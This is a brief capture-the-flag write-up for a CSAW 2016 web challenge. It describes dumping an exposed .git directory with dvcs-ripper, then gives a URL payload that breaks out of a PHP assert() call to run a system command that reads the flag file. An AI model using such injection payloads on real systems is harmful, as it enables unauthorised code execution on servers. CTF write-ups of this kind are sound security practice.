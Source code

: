 # CSAW2016-ctf
I found: http://web.chal.csaw.io:8000/.git/
And used https://github.com/kost/dvcs-ripper tô get all find.
Then i found the assert() function.
payload: vview-source:http://web.chal.csaw.io:8000/?page=%27)%20||%20system(%22cat%20templates/flag.php%22);//

Reference: http://stackoverflow.com/questions/3115559/exploitable-php-functions
